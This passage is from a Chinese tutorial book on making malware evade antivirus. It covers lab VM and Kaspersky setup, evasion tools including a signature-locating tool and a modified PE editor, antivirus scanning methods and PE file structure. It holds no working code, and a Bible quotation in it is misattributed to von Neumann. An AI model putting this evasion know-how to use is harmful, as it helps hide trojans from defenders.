


整个虚拟机软件的界面分为“菜单栏”、“工具栏”、“侧边栏”与“操作区”四个部分，现在我们如图 2.12 所示依次选择菜单栏上的“文件”→“新建”→“虚拟机”调出新建虚拟机向导窗口，如图 2.13 所示。点击“下一步”后来到选择配置窗口，如图 2.14 所示，我们选择“典型”即可，点击“下一步”按钮继续。进入选择操作系统界面后我们在“客户机操作系统”中选择“Microsoft Windows”，并在“版本”中的下拉框里选择“Windows XP Professional”，如图 2.15 所示，然后点击“下一步”按钮继续。

## 第二章 组建试验环境

进入虚拟机名称界面后为我们的虚拟机取一个名字，我取的名字叫做“Windows XP [试验场]”，在“位置”处选择虚拟机将要存放的位置，一般情况下一个 XP 的虚拟机大概需要 3GB 左右的空间，所以一定要放到一个比较大的分区里，如图 2.16 所示，然后点击“下一步”按钮继续。下面进入虚拟机的网络设置界面，如图 2.17 所示，这里我们什么都不需要动，直接点击“下一步”按钮继续。

现在进入指定磁盘容量界面，如图 2.18 所示。一般对于 XP 操作系统来讲 2GB 的空间就应该差不多了，当然如果你想实现更多的功能的话就要多分配一些空间，这里我建议各位读者最好能分配 4GB 的空间。关于“立即分配所有磁盘空间”与“分割磁盘为 2GB 文件”两个复选框各位读者可以根据自己的情况决定是否选择。

如果选择“立即分配所有磁盘空间”的话，您所分配的磁盘空间将马上被 VMware 初始化为磁盘文件，也就是说这 4GB 空间只能被这个虚拟机所使用了，但是这样会增加您虚拟机的运行效率。

而“分割磁盘为 2GB 文件”则是针对 FAT16/32 分区格式而言的，因为此分区格式下不支持体积超过 4GB 的单个文件。最后点击“完成”按钮就成功地创建了一个虚拟机，如图 2.19 所示。

现在我们要对这个虚拟机进行一些设置，当然这并不是必须的，使用默认的配置也可以。创建完虚拟机后，VMware 操作区会自动从起始页跳转到我们新建的虚拟机页面上，如图 2.20 所示。我们点击操作区的“编辑虚拟机设置”按钮或在菜单栏依次选择“虚拟机”→“设置”都可进入如图 2.21 所示的编辑虚拟机设置窗口。

对于我们目前来说这里只有两项是需要我们关注的，它们是“内存”与“CD-ROM”，内存的大小要根据虚拟机的系统与用途而定，一般情况下 XP 的操作系统 256M 的内存就可以正常运行。

对于“CD-ROM”的更改主要是针对光盘镜像文件，如果各位读者打算直接使用 CD 来安装系统的话则不需要这步设置。点击“CD-ROM”列表后右边的界面如图 2.22 所示，由图可知现在这个虚拟机的 CD-ROM 状态是自动探测物理驱动器，也就是与我们现实的电脑使用同一个。如果你安装操作系统时是采用的光盘镜像文件，我们就要选择“使用 ISO 镜像”单选框，这时后面的“浏览”选项变为可用状态，点击后弹出对话框选择镜像文件，如图 2.23 所示，最后点击确定保存设置。

现在我们点击如图 2.24 所示的启动按钮即可启动虚拟机了，但是现在的虚拟机只是一个裸机，它还没有操作系统，此时我们需要给它安装一个操作系统。

关于操作系统的安装各位读者可以查阅相关资料，这里不再给予详细介绍，最后安装完毕后如图 2.25 所示。

### 2.3 杀毒软件的安装与设置

关于杀毒软件的安装与设置基本上都大体相同，这里我们就以卡巴斯基为蓝本介绍一下杀毒软件的安装与设置过程。执行安装程序后如图 2.26 所示，稍作等待后进入卡巴斯基的安装向导界面，如图 2.27 所示。点击“下一步”按钮继续。进入如图 2.28 所示的许可界面选择“我接受许可协议条款”单选框后，点击“下一步”按钮继续。

进入如图 2.29 所示的安装类型界面后会让我们选择“快速安装”或“自定义安装”，如果你对杀毒软件的各模块不是很懂，并且没有什么特殊需求的话，建议选择“快速安装”。因此我们保持默认的“快速安装”并点击“下一步”按钮继续即可进入如图 2.30 所示的准备安装界面，到这里我们点击“安装”按钮后安装程序就进入如图 2.31 所示的自动安装过程。

稍作等待后会弹出如图 2.32 所示的完成安装窗口，我们点击“下一步”按钮后就进入了软件注册向导，如图 2.33 所示。卡巴斯基给我们提供了 4 种注册方式，我们一般情况下都选择第三种，选择完毕后点击“下一步”按钮继续。此时我们来到了如图 2.34 所示的授权许可文件导入的向导界面，在导入许可文件时一定要注意一个细节，我们最好将 KEY 文件放在纯英文的目录下，如果目录名带有中文，在个别操作系统上会导致 KEY 文件导入失败，甚至死机。

点击“浏览”按钮后弹出一个如图 2.35 所示的对话框，我们选择相应的 KEY 文件后并点击“打开”按钮即可成功导入。成功导入后来到如图 2.36 所示的画面，这里显示了我们刚刚导入的这个 KEY 文件基本信息，我们点击“下一步”按钮继续即可。

如出现如图 2.37 所示的界面后就代表我们的 KEY 文件安装成功了，点击“下一步”按钮后来到如图 2.38 所示的安装完成界面，最后点击“完成”按钮后会自动重启计算机，并最终完成安装。

关于卡巴斯基等杀毒软件的设置还是比较简单的，对于初学者来说，比较困难的应该是搞懂一些术语的意思，因此我简单的为大家介绍一下杀毒软件的设置。

大家首先看图 2.39，这是卡巴斯基的主界面，通过主界面可以发现卡巴斯基将功能分为 6 个栏目，分别为“保护”、“扫描”、“更新”、“报告和数据文件”、“激活”与“支持”。这六个栏目的分类恰好表明了现在主流杀毒软件的功能模块，几乎所有的杀毒软件都会将功能分为这几个模块，只不过个别的叫法不一样罢了，例如“报告和数据文件”可能会被称为“报告”或“日志”，而“激活”可能会被称为“注册”等等，稍微变通一下即可。

现在我们右键单击任务栏的卡巴斯基图标，如图 2.40 所示，在弹出的菜单中选择“设置...”后进入卡巴斯基的设置界面，如图 2.41 所示。由侧边栏可知卡巴斯基将其设置内容分成了 9 大类，而一般情况下只有其中的“保护”、“扫描”、“威胁和排除”以及“更新”等选项是我们常用的。

对于其中的子分支各位读者根据字面意思理解即可，这里我就不再赘述了。如果你想知道这个功能是干什么的，一是查百度或 Google，二就是自己亲自做一下更改尝试一下。

其实对于比较初级的知识来说，各位读者只要敢于去试，绝大多数的知识是不难学会的。杀毒软件亦是如此。

### 2.4 认识我们的免杀利器

常言道“人巧不如家伙妙”，所说的就是即便是在心灵手巧的人，如果没有趁手的工具也是干不好活的。很显然，对于我们免杀技术来说肯定也需要一些必不可少的工具的支持，这一小节我就按照各个工具在本书的出现顺序为各位读者简单的有选择的介绍一些必要的知识，以便于各位读者以后的学习。

- **1. PEID（第一次出现于第三章）**
  PEID 工具的界面如图 2.42 所示，这是一款非常强大而又比较人性化的检测 Windows 环境下的 PE 文件信息的程序，它因强大易用的检测程序加壳加密信息而家喻户晓，是软件查壳脱壳工作中必不可少的工具。

- **2. Quick Unpack（第一次出现于第三章）**
  Quick Unpack 的界面如图 2.43 所示，它是一款智能化的傻瓜脱壳工具，它可以脱掉 55 个已知的常用壳与部分未知壳，现在这款软件已经更新了 16 次，各项功能已经比较成熟。

- **3. OllyDbg（第一次出现于第四章）**
  OllyDbg 的界面如图 2.44 所示，它是一款优秀的 32 位的动态调试器，强大的功能与足够良好的易用性已经使它成为了应用层程序调试的大哥大。我们以后免杀工作的主要战场就将在它的帮助下展开。

- **4. WinHex（第一次出现于第四章）**
  WinHex 的界面如图 2.45 所示，它是一款优秀的 16 进制编辑工具，强大的功能使它可以执行内存数据读取与修改、数据恢复等工作。

- **5. MYCCL（第一次出现于第四章）**
  MYCCL 的界面如图 2.46 所示，它是一款用于定位特征码的常用工具，存在部分缺陷，因此我对其进行了一些修改，修改版如图 2.47 所示。

- **6. PEditor（第一次出现于第四章）**
  PEditor 的界面如图 2.48 所示，这是一款修改 PE 文件的必备工具，由于使用人数较多，并且多用于免杀，所以部分杀毒软件已经能识别 PEditor 修改之后的文件并报毒，笔者对其进行了简单的修改，已经解决了这个问题。

- **7. PE Explorer（第一次出现于第五章）**
  PE Explorer 的界面如图 2.49 所示，它是一款功能十分强大且比较专业的 PE 文件编辑工具。

- **8. LordPE（第一次出现于第六章）**
  LordPE 的界面如图 2.50 所示，它是一款功能与 PEditor 类似的工具，但是更为强大。

## 爱是恒久忍耐又有恩慈

> “……不做害羞的事，不求自己的益处，不轻易发怒，不计算人的恶，不喜欢不义，只喜欢真理；凡事包容，凡事相信，凡事盼望，凡事忍耐；爱是永不止息。……”
> 
> —— John von Neumann

## 第三章 免杀基础知识

这一章主要介绍有关免杀的基础知识，从了解杀毒软件开始到特征码定位原理，通俗的语言加上简单的比喻让你轻松成为杀毒软件的“内行人士”！当你了解到杀毒软件的大体原理与工作方式之时，也是你看到杀毒软件的不足之时。

在这章中间我们会讲到 PE 文件的简介，带着你从零开始了解 PE 文件这个看似神秘的领域，为你以后的免杀学习打下坚实的基础。最后将讲到特征码的定位原理以及工具脱壳的使用技巧，让你逐步了解免杀，快速摆脱初学者称号！

### 3.1 杀毒软件的原理与杀毒技术简介

了解杀毒软件与杀毒技术显然对于想要研究免杀的我们来说是一件非常必要的事情，“知己知彼，方能百战不殆”，往往从杀毒软件的角度出发会带给我们不同的思路与想法，这就是所谓的逆向思维。

对于读者来说，了解杀毒软件的原理就是在了解免杀的弱点，而理解杀毒软件的原理就是在洞悉杀毒软件的弱点，“了解”与“理解”之间虽然只是一字之差，但导致的结果却是天壤之别。但对于一个免杀初学者来说，我们只要先做到“了解”即可，当你掌握了一定的免杀技巧之后，开始思索免杀的弱点时，再来“理解”也不迟。

本节的内容虽不深入，但许多知识也是市面上一些书没有涉及到，或是很少涉及到的。这些资料在你研究到一定的高度时才会感觉到它们的宝贵性，当然如果到时这些信息已经遍地都是的话，那就另当别论了……

#### 3.1.1 杀毒软件工作原理

首先，杀毒软件仅仅是一个普通的软件，它之所以具有看似神奇的杀毒功能，这不过是它被赋予了这种使命而已。一个杀毒软件的构造的复杂程度要远远高于木马或病毒，而且鉴于现在木马病毒越来越向系统底层发展，杀毒软件也在不断向系统底层靠近。例如现在的“主动防御”技术，就是应用 RING0 层的编译应用技巧。

> **小知识：什么是“系统底层”，什么又是 RING0?**
> 
> 我们举一个简单的例子，如果你想控制一台电脑，最高层就是软件，你可以通过控制它来控制系统，但是想要防范的话只需要另一种软件即可；其次是硬件，如果你可能控制硬件的话，那么对方要防御的话就要从硬件上下文章了，比如买一把锁；最次的“系统底层”就是构成硬件的金属与矿物质，如果这你都能控制的话，你甚至可以直接将它的机器变成超低配置的垃圾电脑，甚至是干脆给变成个录音机！那几乎就没人能控制你的行为了！也就是说，越靠近底层就拥有越大的权力！
> 
> 从电脑原理来说，电脑中有一个用于控制 CPU 完成各种功能的命令系统，它叫做“指令系统”，指令系统将指令分为特权指令与普通指令。对于一些危险的指令（也就是指一大部分特权指令），只允许操作系统及其相关模块使用，普通的应用程序只能使用那些不会造成灾难的指令，即普通指令。Intel 的 CPU 将特权级别分为 4 层，他们分别是 RING0，RING1，RING2 与 RING3。RING0 为最底层，也就是所谓的“内核层”，这也是操作系统的最底层；RING3 为最高层，也就是用户层。目前 Windows 只使用其中的两个级别，它们是 RING0 和 RING3 层，RING0 只给操作系统用，RING3 谁都能用。但是通过一定的方法还是可以使我们编写的程序“操控” RING0 层的指令。

一个杀毒软件一般由扫描器、病毒库与虚拟机组成，并由主程序将它们整合为一体，如图 3.1 所示。扫描器用于查杀病毒，它也是杀毒软件的核心，一个杀毒软件的杀毒效果好坏就直接取决于它的扫描器编译技术与采用的算法是否先进，而且杀毒软件不同的功能往往对应着不同的扫描器，也就是说，大多数杀毒软件都是由多个扫描器组成的。病毒库里面存储着很多病毒所具有的独一无二的特征字符，我们称之为“特征码”。而病毒库存储的特征码形式则取决于扫描器采用哪种扫描技术。特征码总的来看只分为两类，即文件特征码与内存特征码。文件特征码存在于一些未执行的文件里，例如 EXE 文件、RMVB 文件、jpg 文件甚至是 txt 文件中都有可能存在文件特征码，也都有可能被查杀。而内存特征码仅仅存在于已被加载到内存里的应用程序。关于它们的细节我会在后面为大家详细介绍，而虚拟机则是最近引进的概念，它可以使病毒在一个由杀毒软件构建的虚拟环境中执行，与现实的 CPU、硬盘等物理设备完全隔离，从而可以更加深入地检测文件的安全性。

简单的说，杀毒软件的原理就是匹配特征码。当扫描到一个文件时，杀毒软件会检测这个文件里是否包含病毒库里所包含的特征码，如果有，则报毒并查杀；如果没有，纵然这个文件确实是一个病毒，杀毒软件也会把它当作正常文件来看待。

聪明的读者一定发现了，杀毒软件识别病毒的“根据”就在于特征码，哪怕是一个正常文件，如果我们给它硬加进一个特征码，它也会被无情的查杀。当然，这只是现今杀毒软件最常用的查杀方法，为了照顾大家的接受能力，其它的查杀原理我们在后面会一一讲解。作为一个初级的读者来讲，下面的知识不要求全部理解，对于现在你认为比较深入的内容，完全可以等到自己技术有一定的提高后再回头看也不迟。

#### 3.1.2 基于文件扫描的杀毒技术

基于文件的杀毒技术可以分为“第一代扫描技术”、“第二代扫描技术”与“算法扫描”这三种方法，对于免杀爱好者来说，要对每一种方法烂熟于心，才能成为高手！但作为一个初学者来说了解一下即可。这一节我们就简单介绍一下这三种方法，详细的技术原理如果各位对这有兴趣的话可以自己研究。

#### （1）第一代扫描技术

第一代扫描技术可以用“在文件中检索病毒特征序列”这句话来高度概括，由于目前大部分电脑书籍对病毒检测都停留在相当浅的层次上，就连一些比较新的书也不例外，因此相信上面那句话各位读者见过不止一遍了。现在我就用通俗的语言与简单的道理带领各位从比较深入的角度来了解这种技术……较深的角度出发，让各位读者从根本上对杀毒软件有一个大体了解。

### 1.1 字符串扫描技术

对于字符串，可以理解为一段有意义或无意义的字符，例如“黑客”、“OK”、“Windows XP”与“ww11 好好22”等都是一段字符串。因而字符串的扫描技术是检测计算机病毒最早的也是最简单的办法。

字符串扫描技术一般使用一段从病毒中提取出来的具有特征的一段字符来检测病毒，当然这些字符是一般程序中不大可能出现的。例如一个隐藏执行格式化所有硬盘的命令是不可能出现在普通程序里的，如果某个应用程序包含相应的特征字符，那么它就应该是病毒了。

由此可见字符串扫描技术的原理还是比较简单的。但它却是杀毒软件扫描技术的思想发源地。

### 1.2 通配符扫描技术

通配符可以理解为具有一定意义的符号，例如DOS命令里的“*”号就是代表任意长度、任意字符的意思，而且通配符在不同的领域里也可能会代表不同的意思。

现在杀毒软件中简单的扫描器常常支持通配符，因为鉴于字符串扫描技术的执行速度与特征码长度限制等问题，使得其逐渐退出历史舞台，通配符扫描技术因此取而代之，而且它以同样简单的原理与技术实现了更为强大的功能。扫描器中的通配符一般用于跳过某些字节或字节范围，甚至现在有些扫描器还支持正则表达式。下面我们通过一个例子来讲解通配符扫描技术的原理。例如我们的病毒库中有这样一段特征码：

`0400 B801 020E 07BB ??02 %3 33C9 8BD1 419C`

上面的特征码可以解释为：

1. 尝试匹配 04，如果找到则继续，否则跳出。
2. 尝试上一匹配目标后匹配 00，如果找到则继续，否则跳出。
3. 尝试上一匹配目标后匹配 B8，如果找到则继续，否则跳出。
4. 尝试上一匹配目标后匹配 01，如果找到则继续，否则跳出。
5. 尝试上一匹配目标后匹配 02，如果找到则继续，否则跳出。
6. 尝试上一匹配目标后匹配 0E，如果找到则继续，否则跳出。
7. 尝试上一匹配目标后匹配 07，如果找到则继续，否则跳出。
8. 尝试上一匹配目标后匹配 BB，如果找到则继续，否则跳出。
9. 忽略此字节。
10. 尝试上一匹配目标后匹配 02，如果找到则继续，否则跳出。
11. 在接下来的 3 个位置（字节）中尝试匹配 33，如果找到则继续，否则跳出。
12. 尝试上一匹配目标后匹配 C9，如果找到则继续，否则跳出。
13. 尝试上一匹配目标后匹配 8B，如果找到则继续，否则跳出。
14. 尝试上一匹配目标后匹配 D1，如果找到则继续，否则跳出。
15. 尝试上一匹配目标后匹配 41，如果找到则继续，否则跳出。
16. 尝试上一匹配目标后匹配 9C，如果找到则继续，否则跳出。

这种扫描技术通常支持半字节匹配，这样可以更精确地匹配特征码，甚至一些早期的加密病毒用这种方法都能比较容易地检测出来。

### 1.3 其它扫描技术

其实除了以上两节介绍的扫描技术外，还有一些常用或不常用的扫描技术，由于与免杀关系不大，在这里只做一个简单的介绍，有兴趣的读者可以自己研究。

- **不匹配字节数扫描技术**：这是为 IBM Antivirus 软件开发的一种技术，其原理是准许字符串中有 N 个字节为任意值。
- **通用检测法扫描技术**：用一个简单的字符串来搜索某类病毒的部分或全部已知变种。
- **散列扫描技术**：散列是一个常见的术语，这里指可以对特征码的首字节或第一个 16 或 32 位字节进行计算，并且允许字符串中后面的字节包含通配符。
- **书签检测法**：这是一种保证病毒检测与清除过程更加准确的方法。
- **首尾扫描检测法**：通过只扫描文件头部和尾部而加快病毒检测的复杂方法。
- **入口点和固定点扫描**：可以进一步提升防毒扫描工具检测速度的一种方法。
- **“急速磁盘访问”技术**：它被用于早期的扫描器，由它的名字即可猜测它的作用，但由于种种原因最终未能得到有效的发展。

本段内容只给出一些知识的骨架，当然，对于只研究免杀技术的我们，这些已经足够了！但是如果你对杀毒软件很感兴趣的话，可以依据此段介绍的内容查找相关的知识。

## （2）第二代扫描技术

第二代扫描技术的代表为“近似精确识别法”与“精确识别法”，从名字中可以看出，第二代扫描技术对检测精度给予了充分的重视。面对由于误杀而导致的严重后果是所有杀毒软件厂商都不愿看到的，因此向检测精度发展也在情理之中。

### 2.1 智能扫描

这种方法是在一种病毒变异工具包出现之后提出的，智能扫描法会忽略检测文件中像 NOP 这样无意义的指令。而对于文本格式的脚本病毒或宏病毒，则可以替换掉多余的例如空格、换行符或制表符等空白字符，这一切替换动作在扫描缓冲区就会执行，从而大大提高了扫描器的检测能力。

### 2.2 近似精确识别法

近似精确识别法包含了两种方式与若干种方法，在这里不可能一一介绍，下面介绍的是两种方法各自比较具有代表性的扫描技术。

####### 方法一：多套特征码
该方法采用两个或更多个字符串集来检测每个病毒，如果扫描器检测到其中一个特征符合，那么就会警告发现变种，但并不会执行下一步操作（例如清除病毒体或删除文件）。如果多个特征码全部符合，则报警发现病毒，并执行下一步操作。

####### 方法二：校验和
对于校验和，也许有些朋友会想到文件校验和比对的方法，这个方法的思路是将每一个无毒的文件生成一个校验和，等待下次扫描时再进行简单的校验和比对即可，如果校验和有所变化，再做进一步的扫描，否则就说明这个文件没有被感染。这样有利于提升扫描器的效率，但是严格地说，这并不算是扫描技术。

校验和扫描技术利用得最为到位的就是比较出名的 KAV（卡巴斯基）了，它的第二代扫描器就采用了密码校验和技术，并且已经基本淘汰了搜索字符串技术。校验和是一个复杂的概念，简单地说就是通过对病毒中的某一段代码的计算，从而得出一个值（例如 123XY4），与 MD5 文件校验有些相似，当然这样说不完全正确。

但 KAV 采用的是由卡巴斯基发明的一种叫做密码校验和的特殊算法，这种算法通常会产生两个值。而且病毒库的查询采用了特征码分类思想，例如扫描 PE 文件时只调用与 PE 文件有关的病毒库，并且根据 PE 文件的不同又分为另外的子库，这样有利于提高扫描速度。

例如 KAV 通过对一个文件进行密码学校验和计算后得出两个值，然后与相应病毒库中的记录尝试匹配。如果匹配上了一组中的其中一个，就会报告发现了该病毒的变种；如果在某一组中全部匹配上的话，则会报告发现病毒。

### 2.3 骨架扫描法

此方法由卡巴斯基（Eugene Kaspersky）发明，在检测宏病毒时特别有用。它既不用特征码也不用校验和，而是通过逐行解析宏语句，并将所有非必要字符丢弃，结果只剩下代码骨架。通过对代码骨架的分析，从而提高对变种病毒的检测能力。

### 2.4 精确识别法

精确识别法是现今能够保证扫描器精确识别病毒变种的唯一方法。常与第一代扫描技术结合使用。精确识别法也是利用校验和技术，只不过应用得更广、更复杂。它甚至能通过对整个病毒进行校验和计算后生成特征图。

#### 3.1.3 基于内存扫描的杀毒技术

内存扫描杀毒技术是一种原理复杂的病毒扫描技术，涉及如何使一个病毒失去活性、如何对付只读型内核内存等系统底层知识。但是作为一个免杀爱好者来讲，我们现阶段完全没必要知道这些，现在我们只需要知道内存杀毒的思想与概念即可。

内存扫描器一般与实时监控型扫描器协作，理论上讲，杀毒软件的文件扫描组件能识别的病毒，内存扫描器也能识别。但是也不能武断地认为它们用的就是同一套特征码，相信大家在后面的学习中会深切地体会到这点，就算一个木马文件免杀成功，如果不对其做内存免杀，大多数在运行中仍然会被杀毒软件杀掉。

但是为什么会出现这样的情况？这是因为程序在运行后会将自身释放到内存中，释放后的文件结构与未执行的文件相比有较大的差异，所以为了提高效率与准确性，杀毒软件厂商一般会给内存扫描组件独自定义一套新的特征码。

并且鉴于内存杀毒的工作难度，现在很多杀毒软件仍然采用字符匹配或特征码查杀的原理来扫描内存病毒。所以说，就扫描技术整体来讲，内存扫描技术是相对落后于文件扫描技术的。

#### 3.1.4 杀毒技术前沿

关于杀毒技术的前沿，目前应用得比较广泛的是“主动防御”与“启发式扫描”这两项，当然还有什么“文件流查杀”或“DNA 查杀”等等，但是个人认为原理都大体一样，只不过是利用扫描算法的细微差异再加上好听的名字而生产出来的“面具玩偶”而已，其实大家生产的都是木质的玩偶……

所以这里就介绍一下“虚拟机扫描技术”与“文件流查杀”思想的“鼻祖”——“代码仿真技术”。

代码仿真（Code Emulation）是一种极强大的病毒检测技术，这种技术很好地实现了一个程序运行所需要的基本虚拟环境。它的原理是通过一个虚拟机环境来仿真 CPU 和内存管理系统，从而进行模拟的代码执行过程。

当杀毒软件决定将某个程序放到虚拟机中运行时，首先要将可执行文件的内容读取到内存缓冲区中，然后由仿真器中的一个庞大的 `switch()` 语句对各个指令操作码做逐一分析，最后执行。由此可见，代码仿真技术是十分消耗系统资源的，同样的一个应用程序，如果在虚拟机中运行的话，其执行速度将会慢上几百倍！！但是面对现在个人电脑执行速度的飞跃，纵然慢上几百倍，也还是可以让我们轻松接受，所以这种奢侈的查杀技术才得以推广……

但是文件流查杀与其差异较大，它虽不需要模拟一个虚拟环境来运行病毒，但是它需要病毒被人为地主动运行，当病毒运行时它会分析病毒释放到内存中的代码，直到当病毒的本来代码被完全还原时才进行查杀，因此这种扫描算法不需要耗费大量的系统资源，但是却十分被动！因为如果用户不运行那个病毒，那么这种扫描器就无法查杀。

> **小知识：什么是“缓冲区”？**
> 答：应用程序运行前都需要加载到内存中，而缓冲区就是系统给运行的程序分配的一块动态的空间。它存在的部分目的就是为了节省内存的开销与加快程序的运行速度。其实硬盘甚至光驱也是有缓冲区的，只不过从严格意义上来讲它们还是有差别的，不过有兴趣的读者可以自己下去了解一下。

> **小知识：什么是 switch() 语句？**
> 答：这是一个多数计算机语言都会涉及到的语句，它的作用就是使程序有序而不重复地做某一件事，在这里大家可以理解为：虚拟机要把程序的每一句指令操作码都逐一分析完毕后才去执行。

#### 3.1.5 杀毒技术展望

未来的计算机会朝着智能化的方向发展，计算机病毒实现智能化也是迟早的事，因此下一代杀毒软件也在朝着智能化发展。

现在已经有人尝试了用神经网络来检测计算机病毒，业内的专家们称之为“基于神经网络的启发式分析”。神经网络也是人工智能领域的一个分支，因此这个话题还是很令人激动的。研究者已经成功地用经过训练的神经网络检测出复杂的 EPO 病毒。这种复杂的技术将来可能会与启发式分析合为一体，从而产生出高识别率、小特征库且低误报的扫描器。

但是神经网络也有一个致命的缺点，它需要数量巨大的样本病毒供其分析学习，而且就现今阶段来看，能力的提高也不是很明显。但这也不能掩盖它的优点，病毒越多，它的查杀效果就越令人满意。

由此可见，神经网络的启发式分析是否能得到用户的认可并长期存活于市场，还要看它最终“学习效率”的高低。

> **小知识：什么是“EPO 病毒”？**
> EPO（Entry-Point Obscuring）也称“入口点模糊”技术，这种技术出现的唯一目的就是与杀毒软件做对抗。利用这种技术编写的病毒具有极强的反探测、反查杀以及反删除能力，我们在本书的第 5 章就会介绍到这种技术。

### 3.2 了解 PE 文件

我们在这部分将讲解比较底层的 PE 文件结构知识，这对我们免杀的提高有很大的帮助。但是对于跟着本书走的零基础读者来说，只要先了解其大概含义即可，因为前期的免杀技术几乎涉及不到 PE 文件的相关知识，等到自己有一定的提高后再细细研读有关 PE 文件的知识也可以。

#### 3.2.1 什么是 PE 文件

首先，鉴于技术的时效性，本书所讨论的内容均是 32 位操作系统中的内容。因为 PE 文件是在 32 位操作系统中诞生的，而淘汰的 16 位操作系统下的文件格式称为 NE，即 New Executable（新执行体）。

由于 PE 文件缺乏官方的文档介绍，所以它的一些细节一直是一个有待商榷的知识点，就连微软内部的员工对其理解的也不尽相同！但是，如果你想成为免杀高手，我们就很有必要弄明白它究竟是怎么一回事。

首先各位读者不要迷茫， PE 文件仅仅是一种文件的格式，因为它的构成方式有别于其他文件，所以把利用这种方式构成的文件称之为 PE 文件。大家也可以将其与 JPG 文件或 MP3 文件等对应理解，这样就会揭开它的神秘面纱，显得更为亲近一些。

而 PE 文件中的 PE 就是 Portable Executable（可移植的执行体）的简写。它是 Win32 环境自身所带的可执行文件格式。“可移植的执行体”意味着此文件格式是跨 Win32 平台的，也就是说，即使 Windows 运行在非 Intel 的 CPU 上，任何 Win32 平台的 PE 装载器都能识别和使用该文件格式。所以所有 Win32 下的可执行文件也都必须使用 PE 文件格式。

> **小知识：什么是 Win32 环境？**
> 答：Win32 环境就是指 Windows 操作系统下的 32 位运行环境，例如大家常用的 Windows 2000、Windows XP 等都是 Win32 环境，而 DOS 则是 Win16 环境，也就是 16 位操作系统。

#### 3.2.2 认识 PE 文件

PE 文件总的来说是由 DOS 文件头、DOS 加载模块、PE 文件头、区段表与区段 5 部分构成。但是作为一个 Windows 下的文件格式，弄两个 DOS 相关的结构干什么呢？其实如果程序在纯 Windows 环境下运行，那个 DOS 文件头与 DOS 加载模块是根本用不上的，PE 加载器会根据 DOS 文件头中的最后一个标志跳过 DOS 加载模块，直接转到 PE 文件头。加上两个 DOS 相关的结构完全是为了兼容性问题。

我们用 C32Asm 反汇编一款 Windows 下的系统优化软件 TweakUI。关于 C32Asm，它是一款功能强大的国产反汇编软件，具有反汇编、16 进制修改与 Hiew 等功能。运行 C32Asm 后依次选择【文件】－【打开十六进制文件（H）】调出打开窗口，选择我们的优化软件 TweakUI，如图 3.2。打开后我们就会第一次看见如图 3.3 那样以十六进制展现在我们面前的 Windows 程序了！为了方便观察与理解，我们可以通过观察图 3.4 大体了解 PE 文件的结构。

通过图 3.4 不难发现，整个程序就是以 DOS 文件头“MZ”开始的，接下来就是 DOS 加载模块“This program cannot be run in DOS mode”，这两个几乎就是恒定不变的，几乎每个 Windows 程序的前面都是这样一些信息！

下面有一个以字母“PE”为开头的文件块，这就是大名鼎鼎的 PE 文件头了，PE 文件头的标准大小为 224 个字节。由图可见，里面有一个画了横线标记的问号与左面的十六进制信息“E0”相对应，这便是 PE 文件头体积的描述标记，十六进制的“E0”等于十进制的“224”，由此也不难看出 PE 文件头的大小为 224 个字节。

再往下就是以“.text”、“.data”与“.rsrc”组成的区段表了，区段表也称节表，它的作用就相当于一本书中的目录。你想看哪一章哪一节，只要按着目录标注的页数去找就可以，PE 文件的区段表也是起同样的作用，只不过它又附加了一些很有用的属性，例如读写权限操作等等。它的任务就是能使 PE 加载器能准确快速地加载相应的区段。而图中的“.text”、“.data”与“.rsrc”则是这个程序里的区段名称，也称为“节”。由此可见这个程序是由“.text”、“.data”与“.rsrc”这 3 个区段组成的，如图 3.5。

